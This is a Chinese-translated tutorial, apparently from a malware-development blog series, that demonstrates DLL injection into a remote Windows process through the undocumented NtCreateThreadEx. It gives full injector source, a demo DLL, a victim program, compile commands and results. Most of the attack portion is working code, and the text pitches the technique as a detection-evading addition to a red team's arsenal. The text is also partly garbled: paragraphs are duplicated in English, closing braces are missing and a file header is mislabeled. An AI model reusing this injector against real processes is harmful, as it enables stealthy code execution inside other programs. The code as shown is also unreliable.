










\newpage
\subsection{通过未文档化的 NtCreateThreadEx 进行 DLL 注入：简单的 C++ 示例}

﷽

{width="80%"}

在前面的章节中，我写过通过 `CreateRemoteThread` 和 `SetWindowsHookEx` 进行的经典 DLL 注入。

今天我将讨论另一种 DLL 注入技术，它的要点在于使用未文档化的函数 `NtCreateThreadEx`。
那么我们就来演示如何借助 Win32 API 函数 `VirtualAllocEx`、`WriteProcessMemory` 以及一个官方未文档化的 Native API `NtCreateThreadEx`，把恶意 DLL 注入到远程进程中。

首先，我们来看我们恶意 DLL 的示例 C++ 源代码（`evil.c`）：

```cpp
/*
DLL example for DLL injection via NtCreateThreadEx
author: @cocomelonc
https://cocomelonc.github.io/pentest/2021/12/06/malware-injection-9.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow-meow!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

和往常一样，它非常简单。只是弹出一个「Meow-meow!」。

我们来编译我们的 DLL：

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

{width="80%"}

然后，我们来看我们恶意软件的源代码（`hack.cpp`）：

```cpp
/*
hack.cpp
DLL injection via undocumented NtCreateThreadEx example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/06/malware-injection-9.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

#pragma comment(lib, "advapi32.lib") 

typedef NTSTATUS(NTAPI* pNtCreateThreadEx) (
  OUT PHANDLE hThread,
  IN ACCESS_MASK DesiredAccess,
  IN PVOID ObjectAttributes,
  IN HANDLE ProcessHandle,
  IN PVOID lpStartAddress,
  IN PVOID lpParameter,
  IN ULONG Flags,
  IN SIZE_T StackZeroBits,
  IN SIZE_T SizeOfStackCommit,
  IN SIZE_T SizeOfStackReserve,
  OUT PVOID lpBytesBuffer
);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
  // if we find the process: return process ID
  if (strcmp(procname, pe.szExeFile) == 0) {
  pid = pe.th32ProcessID;
  break;
  }
  hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  SIZE_T rl; // return length

  char evilDll[] = "evil.dll";
  int evilLen = sizeof(evilDll) + 1;
  
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  LPTHREAD_START_ROUTINE lb = 
  (LPTHREAD_START_ROUTINE) GetProcAddress(
  hKernel32, "LoadLibraryA");
  pNtCreateThreadEx ntCTEx = (pNtCreateThreadEx)GetProcAddress(
  GetModuleHandle("ntdll.dll"), "NtCreateThreadEx");
  
  if (ntCTEx == NULL) {
  CloseHandle(ph);
  printf("NtCreateThreadEx failed :( exiting...\n");
  return -2;
  }

  pid = findMyProc(argv[1]);
  if (pid == 0) {
  printf("PID not found :( exiting...\n");
  return -1;
  } else {
  printf("PID = %d\n", pid);

  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

  if (ph == NULL) {
  printf("OpenProcess failed :( exiting...\n");
  return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);

  // write payload to memory buffer
  WriteProcessMemory(ph, rb, evilDll, evilLen, rl); // NULL);

  ntCTEx(&ht, 0x1FFFFF, NULL, ph, 
  (LPTHREAD_START_ROUTINE) lb, rb, 
  FALSE, NULL, NULL, NULL, NULL);

  if (ht == NULL) {
  CloseHandle(ph);
  printf("ThreadHandle failed :( exiting...\n");
  return -2;
  } else {
  printf("successfully inject via NtCreateThreadEx :)\n");
  }
  
  WaitForSingleObject(ht, INFINITE);

  CloseHandle(ht);
  CloseHandle(ph);
  }
  return 0;

```

我们来研究一下这段代码的逻辑。如你所见，首先我用了之前某篇文章里的 `FindMyProc` 函数。它非常简单，基本上它做的事情是：接收我们想要注入的目标进程的名字，尝试在操作系统的内存中找到它，如果它存在、正在运行，这个函数就返回该进程的进程 ID。

然后，在 `main` 函数里，我们的逻辑和我那篇经典 DLL 注入的文章里一样。唯一的区别是我们用 `NtCreateThreadEx` 函数代替 `CreateRemoteThread`：

{width="80%"}

如这段代码所示，Windows API 调用可以被 Native API 函数替代。例如，`VirtualAllocEx` 可以替换为 `NtAllocateVirtualMemory`，`WriteProcessMemory` 可以替换为 `NtWriteProcessMemory`。

这种方法的一个缺点是，该函数未文档化，因此将来可能会发生变化。

但这里有个注意事项。我们来为我们的「受害」进程写一段简单的代码（`mouse.c`）：

```cpp
/*
hack.cpp
victim process source code for DLL injection via NtCreateThreadEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/06/malware-injection-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int main() {
  MessageBox(NULL, "Squeak-squeak!", "<:( )~~", MB_OK);
  return 0;

```

如你所见，逻辑最简单，它只是弹出一个 Squeak-squeak! 消息框。我们来编译：

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-fpermissive
```

{width="80%"}

然后检查：

{width="80%"}

所以一切完美工作。

我们把恶意 DLL 注入到这个进程。编译 `hack.cpp`：

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

{width="80%"}

然后，运行 Process Hacker 2：

{width="80%"}

如你所见，高亮的进程就是我们的受害进程 `mouse.exe`。

我们来运行我们简单的恶意软件：

```cmd
.\hack.exe mouse.exe
```

{width="80%"}

如你所见，我们的恶意 DLL 如预期那样成功注入了！

Let's go to investigate properties of our victim process `PID: 3884`:

{width="80%"}

{width="80%"}

As you can see, our malicious DLL successfully injected as expected!

但为什么我们没有注入到像 `notepad.exe` 或 `svchost.exe` 这样的其他进程呢？我读过关于 Session Separation（会话隔离）的资料，我认为这就是我遇到的问题的原因，所以我有一个问题：我怎样才能黑掉 Windows 10 呢 :)

I read about [Session Separation](https://techcommunity.microsoft.com/t5/ask-the-performance-team/application-compatibility-session-0-isolation/ba-p/372361) and I think it is reason of my problem so I have one question: How I can hacking Windows 10 :)

这项技术之所以值得放进你的武器库，是因为我们没有使用 `CreateRemoteThread`——它更流行、更可疑，也更被蓝队仔细研究。

我希望这篇文章能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[Session Separation](https://techcommunity.microsoft.com/t5/ask-the-performance-team/application-compatibility-session-0-isolation/ba-p/372361)  
[source code in Github](https://github.com/cocomelonc/2021-12-06-malware-injection-9)
